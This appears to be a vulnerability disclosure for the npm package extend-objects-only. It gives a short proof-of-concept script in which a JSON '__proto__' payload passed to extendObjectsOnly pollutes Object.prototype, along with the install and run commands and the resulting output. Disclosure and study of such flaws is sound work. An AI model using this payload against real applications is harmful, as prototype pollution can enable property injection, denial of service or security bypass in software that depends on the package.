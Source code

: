 # Description

Prototype Pollution in extend-objects-only

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var { extendObjectsOnly } = require("extend-objects-only")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
extendObjectsOnly(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i extend-objects-only # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
